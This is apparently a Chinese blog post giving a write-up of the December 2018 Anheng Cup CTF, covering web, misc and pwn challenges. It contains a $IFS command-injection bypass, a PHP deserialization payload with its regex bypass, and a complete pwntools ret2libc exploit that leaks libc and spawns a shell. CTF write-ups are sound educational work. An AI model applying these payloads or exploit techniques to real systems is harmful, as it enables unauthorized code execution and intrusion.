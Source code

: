 ```yaml
---
layout: post
title: 2018年安恒杯12月月赛writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
  - pwn
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web

### ezweb（100分）:
一个网站，网站首页抓包在cookie里有一个user参数，解码发现时user，改成admin重新提交后跳转到admin.php。（ps:扫目录扫出admin.php，直接在admin.php改user参数没用，必须要从index跳转，很坑。。。）
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-2.png)
之后是一个框，可以直接命令执行，空格被过滤，用$IFS绕过即可，flag在系统根目录。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-3.png)

### web2（200分）

源码已经给了，就是一个反序列化，正则是要求`o:`后面不能接数字，后面加一个加号可以绕过，注意提交的时候加号要url编码，不然会被当成空格。
payload:`O:+4:"baby":1:{s:4:"file";s:8:"flag.php";}`
```
 <?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    public $file;
    function __toString()      
    {          
        if(isset($this->file)) 
        {
            $filename = "./{$this->file}";        
            if (file_get_contents($filename))         
            {              
                return file_get_contents($filename); 
            } 
        }     
    }  
}  
if (isset($_GET['data']))  
{ 
    $data = $_GET['data'];
    preg_match('/[oc]:\d+:/i',$data,$matches);
    if(count($matches))
    {
        die('Hacker!');
    }
    else
    {
        $good = unserialize($data);
        echo $good;
    }     
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?> 
```

## misc

### misc1(100分）
一个压缩包，密码提示如下，到最后都没人做出来，后来又放了提示`解压密码不是时间；8进制`比赛结束有人给出了密码`!(()!@)6125dou `，是csdn泄漏的密码库里没有重复的密码。。。这脑洞。后面也没做
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-2.jpeg)

### misc2(100分）
签到题，关注公众号，什么牛不会跑，答案是蜗牛
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc2-1.jpeg)

### misc3(100分)
给了一个加密的压缩包，一个txt，压缩包里也有这个txt，比较一下crc发现一样，明文爆破就行了。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-1.png)
然后是一个docx文件，后缀名改成zip解压，`word\document.xml`里有一串md5，就是flag。后来听说某些版本的office把docx里的图片移走就有flag，我mac的page试了不行
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-2.png)

### misc4(100分)
一张png，我的mac下打不开，但是windows下能正常打开，说明图片高度有问题（mac大法好）。把高度和长度改成一样的，出现一段编码，因为末尾超过了两个==，猜测是base32，最后面再加上一个=base32解码即可。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc4-1.png)

## pwn

### pwn1(100分)
很简单的栈溢出，120个字符溢出，开了nx保护，不能写shellcode，可以ret2libc。
```
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./messageb0x')
#io=gdb.debug("./messageb0x")
#io=remote('101.71.29.5',10009)
elf = ELF('./messageb0x')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['process_info']

print "leak puts_got addr and return to main again"
payload = flat(['A' * 120, puts_plt, main, puts_got])
sh.sendline(payload)

print "get the related addr"
sh.recvuntil('Thank you !\n')
puts_addr=u32(sh.recv()[0:4])
libc = LibcSearcher('puts', puts_addr)
libcbase = puts_addr - libc.dump('puts')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 120, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)
sh.interactive()
```

[1]: https://www.linkedbyx.com/home